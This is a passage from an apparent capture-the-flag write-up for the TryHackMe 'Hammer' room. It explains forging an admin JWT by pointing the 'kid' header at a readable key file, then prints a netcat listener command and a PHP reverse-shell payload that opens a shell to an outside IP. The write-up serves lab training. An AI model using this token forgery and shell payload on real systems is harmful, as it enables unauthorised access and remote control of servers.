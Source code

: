 ![Image](https://phantomindamachine.github.io/CTF-Blogs/images/try-hack-me/medium/hammer/Hammer-21%201.png)

From the image above we can notice a few things:
- the JWT token is signed with the `HS256` algorithm
	- it referencing a key located at `/var/www/mykey.key`
- the token has the `role` set to `user`
#### JWT `kid` Vulnerability

Lets start by changing the JWT `kid` to something that does not exist.

![Image](https://phantomindamachine.github.io/CTF-Blogs/images/try-hack-me/medium/hammer/Hammer-22%201.png)

- we get a `Invalid token: Key file not found` error.

This means:
- `/var/www/mykey.key` exists
- the backend is verifying its existence 

How can we use this information:
- we can have `kid` point to a file we control
	- control meaning, we can see the content and use it
- we then use the file to create a symmetric passphrase for the signature

---

***Note***: The correct thing would have been to have the key identifier that the backend could look up in an internal database and not point to a file

---

![Image](https://phantomindamachine.github.io/CTF-Blogs/images/try-hack-me/medium/hammer/Hammer-23%201.png)

- we pointed the JWT `kid` to the file `/var/www/html/188ade1.key`
- we changed our role from `user` to `admin`
- we used the contents of `188ade1.key` to sign our JWT token

![Image](https://phantomindamachine.github.io/CTF-Blogs/images/try-hack-me/medium/hammer/Hammer-24%201.png)

With that we can now run Linux commands

### Getting a Shell

For this we will use the website ***revshells.com*** to help craft a payload:

![Image](https://phantomindamachine.github.io/CTF-Blogs/images/try-hack-me/medium/hammer/Hammer-30.png)

Lets set up our listener with `netcat`
```bash
nc -lvnp 9999
```

We know the server is running PHP.
So we can use the following command via the HTTP POST requests because we can now send commands as admin.

```JSON
{"command":
"php -r '$sock=fsockopen(\"10.6.68.14\",9999);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"}
```

---